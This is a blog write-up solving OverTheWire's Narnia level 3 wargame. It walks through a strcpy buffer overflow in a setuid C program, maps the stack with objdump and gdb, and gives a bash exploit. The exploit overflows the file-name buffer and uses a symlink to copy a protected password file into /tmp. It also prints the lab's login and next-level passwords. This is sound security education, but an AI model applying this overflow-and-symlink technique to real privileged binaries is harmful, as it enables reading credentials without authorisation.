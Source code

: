 ```yaml
---
layout: post
title:  "Narnia Level 3"
date:   2015-10-12 12:52
categories: narnia wargame pwnable overthewire python c
author: Leander
---
```


This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 12 October 2015.

<strong>Challenge Description:</strong> Narnia3 requires the attacker to take advantage of a <em>strcpy()</em> vulnerability which does not have any bounds checking. Since the <em>strcpy()</em> is executed blindly it creates a situation where the user can overwrite the buffer affecting all the variables in main. 
<!--break-->

First connect to the lab
<ul><li>ssh narnia3@narnia.labs.overthewire.org</li>
<li>Enter the following as the password vaequeezee</li></ul>

Change directories to the narnia games folder: `cd /narnia`. Next, let's examine how we get the password for the next level: `less narnia3.c`

{% highlight c linenos %}
int main(int argc, char **argv){
 
 int  ifd,  ofd;
 char ofile[16] = "/dev/null";
 char ifile[32];
 char buf[32];
 
 if(argc != 2){
  printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
  exit(-1);
 }
 
/* open files */
 strcpy(ifile, argv[1]);
 if((ofd = open(ofile,O_RDWR)) < 0 ){
  printf("error opening %s\n", ofile);
  exit(-1);
 }
 if((ifd = open(ifile, O_RDONLY)) < 0 ){
  printf("error opening %s\n", ifile);
  exit(-1);
 }
 
/* copy from file1 to file2 */
 read(ifd, buf, sizeof(buf)-1);
 write(ofd,buf, sizeof(buf)-1);
 printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
/* close 'em */
 close(ifd);
 close(ofd);
 
 exit(1);
}
{% endhighlight %}

This is an interesting problem because the program accepts a command line argument and then does a <em>strcpy()</em> of <em>argv[1]</em> on line 14. When we check the man pages for <em>strcpy()</em> we find, "The  strcpy()  function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer  pointed  to  by  dest." We also find at the end of the man page a specific bug (shortcut is shift+gg):

<figure class="highlight"><pre><code class="language-text" data-lang="text">BUGS
 If the destination string of a strcpy() is not large enough, then  any-
 thing  might  happen.   Overflowing  fixed-length  string  buffers is a
 favorite cracker technique for taking complete control of the  machine.
 Any  time  a  program  reads  or copies data into a buffer, the program
 first needs to check that there's enough space.  This may  be  unneces-
 sary  if you can show that overflow is impossible, but be careful: pro-
 grams can get changed over time, in ways that may make  the  impossible
 possible.</code></pre></figure>
 
Great so now we know we have another buffer overflow, and you can find more information about buffer overflows at [exploit-db](https://www.exploit-db.com/papers/13207/). So knowing this information we now know that <em>strcpy()</em> will take everything it finds in <em>argv[1]</em> until it reaches a null character, but the buffer for ifile is only 32 bytes. If our <em>argv[1]</em> were longer than 32 bytes it would overflow into something, but now the question is:

* What is the something that <em>argv[1]</em> overuns?
* Can we take advantage of the buffer overrun and make it do something unintended?

First, lets make some files. Since we know that the buffer needs to be overrun by 32 bytes we need to name a file something that is larger than 32 bytes. After the file is created we can test our theory with:

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
/narnia/narnia3 `pwd`/abc #test theory
{% endhighlight %}

![Test Theory](/images/narnia03_first_test.png)

This creates a directory in the tmp folder [^1] called aaaaaaaaaaaaaaaaaaaaaaaaaaa. The screenshot tells us that we are either overunning the ifile or the ofile, because it notified us of an error that it couldn't open "/abc", but did not provide us the entire directory we tried to open. Let's examine which we are overrunning with `objdump -d -M intel /narnia/narnia3`

First, I'm going to build a visual image of what the stack looks like.[^2] Our variables are declared in this order ifd, ofd, ofile[16], ifile[32], and buf[32]. Beginning at 0x8048523 the stack expands by 112 bytes. Which means the bytes are reserved as follows: bottom 4 bytes[^3] are ifd, followed by 4 bytes ofd, 16 bytes for ofile, 32 bytes for ifile, and 32 bytes for buff. This is a total of 88 bytes - the remainder of the bytes are used for local variables.

<p><table width="100%">
<tr>
      <th width="25%">Stack</th>
      <th width="15%">Register Info</th>
      <th width="60%">Notes</th>
</tr>
<tr>
      <td>int ifd</td>
      <td>esp+108</td>
      <td>4-byte integer in file descriptor</td>
</tr>
<tr>
      <td>int ofd</td>
      <td>esp+104</td>
      <td>4-byte integer out file descriptor</td>
</tr>
<tr>
      <td>0<br>
      l<br>
      /nul<br>
      /dev</br></td>
      <td>esp+100<br>
      esp+96<br>
      esp+92<br>
      esp+88</td>
      <td>This is where ofile[16] is located. We can determine this because ofile is 16 bytes and is statically assigned /dev/null in line 4 of the source code.</td>
</tr>
<tr>
      <td>char ifile[32]</td>
      <td>esp+84<br>
      ...<br>
      esp+56</br></td>
      <td>ifile is located here and encompasses 32 bytes, ending at esp+84.</td>
</tr>
<tr>
      <td>char buff[32]</td>
      <td>esp+52<br>
      ...<br>
      esp+24</br></td>
      <td>buff[32] is located here and encompasses 32 bytes, ending at esp+52.</td>
</tr>
<tr>
      <td>local variables</td>
      <td>esp+20<br>
      ...<br>
      esp+0</br></td>
      <td>There is space reserved for several local variables. These local variables established for passing arguments to C standard library functions such as <em>read</em>, <em>open</em>, and <em>strcpy</em>.</td>
</tr>
</table><br/></p>

Confirm the view of the stack by observing it at a designated breakpoint - 0x8048546[^4]. It doesn't look like text, but that is because we are viewing all hexidecimal values. We can type a simple command in order to see the known string in the stack as shown: ```x/s $esp+88```

![gdb stack view at breakpoint](/images/narnia03_gdb_stack_view.png)

Beginning at 0x8048526 the character string <em>/dev/null</em> for ofile is placed onto the top of the stack at esp+58. The next interesting point is around 0x8048579 where a strcpy operation takes <em>arg[1]</em> and copies it into ifile. If we reference our stack table now we can see what is happened to our input earlier, because the "abc" overflowed into the ofile!

![objdump screenshot with intel syntax](/images/narnia03_objdump_screenshot.png)

Now it's time to craft our input to take advantage of this vulnerability. The general idea is that we are going to use two file names with the same name to pass as arguments to ifile and ofile. We will take advantage of the write function which was previously writing to <em>/dev/null</em> and make it write something else instead. Which if we create a symbollically linked file as our input we can read the key.

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
ln -s /etc/narnia_pass/narnia4 abc #create the symbollically linked file
touch /tmp/abc #create our temp file for the key
chmod 777 /tmp/abc #where the key will be written
/narnia/narnia3 `pwd`/abc #test our solution
cat /tmp/abc #read key
{% endhighlight %}

BINGO! level 4 password is ```thaenohtai```

--------

<h3>Footnotes:</h3>
[^1]: I use the tmp folder because that is the one of the few globally write/read folders in the linux system from which I don't need a specific user's access privileages to use. This allows me to create folders inside /tmp which will be owned by myself and then still be able to read other folders or files inside the tmp directory, provided I know the file or directory name.
[^2]: The numbers I reference are different than what is in the screenshot because I am using decimal instead of hexadecimal number references. It is only a matter of preference and is easier for me to read.
[^3]: How do I know it's 4 bytes for the variable? Well an integer value has a maximum value of 4,294,967,296. Which factors into a value of 2^32, and last 32 bits / 8, because 8 bits are in a byte, = 4 bytes.
[^4]: First you have to make sure you have a readable file, next you need to open the file using gdb: ```gdb ./narnia3 test```. Next set a breakpoint: ```b *0x8048546``` and then type ```run```. Last, examine the stack with the following command: ```x /40xw $esp```. If you need to learn more about gdb check out [this cheat sheet](http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf).